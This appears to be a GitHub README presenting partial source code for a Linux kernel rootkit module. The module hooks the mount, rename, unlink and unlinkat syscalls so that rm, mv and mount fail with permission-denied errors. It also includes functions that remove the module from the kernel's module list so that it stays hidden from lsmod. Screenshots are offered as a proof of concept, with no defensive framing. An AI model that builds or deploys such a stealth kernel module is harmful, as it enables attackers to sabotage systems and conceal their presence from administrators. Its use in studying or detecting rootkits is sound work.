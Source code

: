 This Lkm created by Devil0x1 , which hook mount unlink and unlink at also rename which block commands like rm mount mv.
Works in Versions 4.x
```#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/kallsyms.h>
#include <linux/mutex.h>
#include <linux/uaccess.h>
```
This all are needed libraries 


``` static asmlinkage long (*real_sys_mount)(const char __user *source, const char __user *target,
                                         const char __user *filesystemtype, unsigned long flags,
                                         const void __user *data);
static asmlinkage long (*real_sys_rename)(const char __user *oldname, const char __user *newname);
static asmlinkage long (*real_unlink)(const char __user *pathname);
static asmlinkage long (*real_unlinkat)(int dfd, const char __user *pathname, int flag);```


Above are just the real syscalls pointers


So , we hooked an mount , rename , unlink , unlinkat and return -EPERM error to show permission denied errors :) eg:
``` return -EPERM``



```void module_show(void) {
    list_add(&THIS_MODULE->list, prev_module);
    hidden = 0;
}

void module_hide(void) {
    prev_module = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    hidden = 1;
}
```

  Simple , functions which first shows hide from lsmod and show at lsmod 


POC:


<img width="520" height="173" alt="image" src="https://github.com/user-attachments/assets/54460af4-ac5a-4bd0-9a5b-603f0c9c8ea0" />





Here perm denied errors hehe :


<img width="632" height="91" alt="image" src="https://github.com/user-attachments/assets/1913ec80-dbaf-4de8-8e25-a13e2b1e14cc" />






